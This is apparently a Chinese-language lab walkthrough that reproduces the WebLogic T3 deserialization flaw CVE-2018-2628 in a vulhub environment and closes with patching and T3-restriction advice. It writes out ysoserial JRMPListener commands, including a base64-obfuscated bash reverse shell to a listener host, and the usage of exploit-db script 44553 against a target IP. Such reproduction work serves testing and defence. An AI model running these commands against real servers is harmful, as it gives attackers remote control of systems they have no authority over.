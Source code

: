 # Weblogic-JAVA反序列化（CVE-2018-2628）

漏洞复现-CVE-2018-2628

### 0x00 前言

该漏洞通过t3协议触发，可导致未授权的用户在远程服务器执行任意命令。

影响版本：

- Oracle Weblogic Server 10.3.6.0
- Oracle Weblogic Server 12.1.3.0
- Oracle Weblogic Server 12.2.1.2
- Oracle Weblogic Server 12.2.1.3

注意：

```
复现用的ysoserial需要java8的环境
复现用的44553.py需要python2的环境
```

### 0x01 环境搭建

这里是用的vulhub进行环境搭建

![image-20230307195339345](https://s2.loli.net/2023/03/07/oXxOFEWLUJgRysQ.png)

### 0x02 复现步骤

首先下载ysoserial，并启动一个JRMP Server：

```shell
java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener [listen port] CommonsCollections1 [command]
```

其中，`[command]`即为我想执行的命令，而`[listen port]`是JRMP Server监听的端口。

```shell
java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener 1234 CommonsCollections1 'whoami'
```

因为ysoserial不允许出现&符号，所以构造一下反弹shell

```shell
java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener 1234 CommonsCollections1 'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEyLjEzNS80NDQ0IDA+JjE=}|{base64,-d}|{bash,-i}'
```

![image-20230311183739176](https://s2.loli.net/2023/03/11/qFrhUuOi3eps96H.png)



查找可利用脚本，可参考`https://www.exploit-db.com/exploits/44553`

![image-20230311162827121](https://s2.loli.net/2023/03/11/LYj2dqEo4uCxm3l.png)

```shell
python exploit.py [victim ip] [victim port] [path to ysoserial] [JRMPListener ip] [JRMPListener port] [JRMPClient]
```

其中，`[victim ip]`和`[victim port]`是目标weblogic的IP和端口，`[path to ysoserial]`是本地ysoserial的路径，`[JRMPListener ip]`和`[JRMPListener port]`第一步中启动JRMP Server的IP地址和端口。`[JRMPClient]`是执行JRMPClient的类，可选的值是`JRMPClient`或`JRMPClient2`。

```shell
python 44553.py 192.168.12.130 7001 ysoserial-0.0.6-SNAPSHOT-BETA-all.jar 192.168.12.135 1234 JRMPClient 
```

![image-20230311183824292](https://s2.loli.net/2023/03/11/g9E16qIKhuyFW3p.png)

执行完成后，发现反弹成功

![image-20230311183919040](https://s2.loli.net/2023/03/11/Ox3E96cTyAdL5Mt.png)



### 0x03 修复建议

1、此漏洞产生于Weblogic T3服务，当开放Weblogic控制台端口（默认为7001端口）时，T3服务会默认开启。关闭T3服务，或控制T3服务的访问权限，能防护该漏洞。

2、更新Oracle官方发布的最新补丁